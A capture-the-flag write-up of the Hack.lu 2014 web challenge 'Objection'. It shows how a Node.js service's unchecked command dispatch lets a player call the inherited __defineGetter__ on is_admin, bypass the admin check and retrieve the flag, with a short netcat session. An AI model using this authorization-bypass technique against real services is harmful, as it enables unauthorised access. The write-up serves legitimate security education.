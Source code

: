 # Hack.lu CTF 2014: Objection

**Category:** Web
**Points:** 150
**Author:** TheJH
**Description:**

> This guard talks a weird dialect. And why does he talk in such a complicated way?
>
> Download: [objection_4966674d17ff296939c0e3dfccfe87ed.co](objection_4966674d17ff296939c0e3dfccfe87ed.co)
>
> `nc wildwildweb.fluxfingers.net 1408`

## Write-up

[The provided `objection_4966674d17ff296939c0e3dfccfe87ed.co` file](objection_4966674d17ff296939c0e3dfccfe87ed.co) resembles a Node.js app, except it’s written in “a weird dialect” instead of in JavaScript. This is [LiveScript](http://livescript.net/). Using the project’s website we [compile the LiveScript code to JavaScript](objection.js), since we’re more familiar with that language.

[The source code](objection.js) reveals that the program accepts commands as input:

* `login $password` attempts to login using `$password` as the password
* `get_token` reveals the token if you’re logged in as admin

Since we don’t know the admin password, we’ll have to find another way to set `client_context.is_admin` to a truthy value, to avoid hitting this `if` branch:

```js
if (!this.is_admin) {
  return cb("You are not authorized to perform this action.");
}
```

Let’s take a look at the code that parses our input:

```js
var ref$, funcname, args;
it = it.toString('utf8');
console.log("got line: " + it);
ref$ = it.split(' ');
funcname = ref$[0];
args = slice$.call(ref$, 1);
if (typeof client_context[funcname] !== 'function') {
  return con.write("error: unknown function " + funcname + "\n");
}
return client_context[funcname](args, function(it){
  return con.write(it + "\n");
});
```

The program accepts any command `funcname` as long as `client_context[funcname]` is a JavaScript function object. This means we’re not limited to the custom `login` and `get_token` methods – we can also use function properties that are inherited from the global `Object.prototype`. Using [some old code](https://github.com/mathiasbynens/tpyo/blob/b76ca2f4d7726c51c2f8c779d73773de91f86a56/tpyo.js#L7-L22), we quickly created the following list of such properties that are available in Node.js (which is based on the V8 engine):

* `constructor`
* `hasOwnProperty`
* `isPrototypeOf`
* `propertyIsEnumerable`
* `toLocaleString`
* `toString`
* `valueOf`
* `__defineGetter__`
* `__defineSetter__`
* `__lookupGetter__`
* `__lookupSetter__`

If we enter [`__defineGetter__`](https://javascript.spec.whatwg.org/#object.prototype.__definegetter__) as the command name and `is_admin` as its argument, the following code is executed:

```js
client_context.__defineGetter__(['is_admin'], function(it) {
  return con.write(it + "\n");
});
```

After that, every time `client_context.is_admin` is accessed, it results in the return value of `con.write(it + "\n")` instead of its initial value `false`. This means we can call `get_token` afterwards. Bingo!

```bash
$ nc wildwildweb.fluxfingers.net 1408
hello!
__defineGetter__ is_admin
get_token
undefined
The current token is flag{real_cowboys_dont_use_object_create_null}
```

The flag is `flag{real_cowboys_dont_use_object_create_null}`.

## Other write-ups and resources

* none yet
